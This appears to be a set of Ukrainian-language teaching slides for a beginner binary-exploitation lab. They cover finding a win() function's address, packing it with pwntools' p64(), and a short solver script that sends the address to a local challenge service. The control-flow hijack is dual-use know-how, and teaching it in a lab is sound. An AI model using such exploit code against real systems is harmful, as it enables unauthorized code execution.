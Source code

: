 
# Stage 04: Знаходження адрес

Методи отримання адреси win()

````md magic-move
```bash
objdump -d binary | grep '<win>'
# 0000000000401136 <win>:
```

```python
from pwn import *
elf = ELF('./binary', checksec=False)
print(hex(elf.symbols['win']))
# 0x401136
```
````

**Рекомендовано**: pwntools (найпростіше)

---

# Stage 04: Що таке p64()?

Пакування у little endian

```python
p64(0x401136)
# b'\x36\x11\x40\x00\x00\x00\x00\x00'
#    ↓    ↓    ↓    ↓    ↓    ↓    ↓    ↓
# LSB                              MSB
```

**Чому 8 байт?**: 64-бітна архітектура

---

# Stage 04: Solver

Повний експлойт

```python
from pwn import *

elf = ELF('build/stage04', checksec=False)
io = remote('127.0.0.1', 7104)

io.send(p64(elf.symbols['win']))
print(io.recvall(timeout=1).decode())
```

---
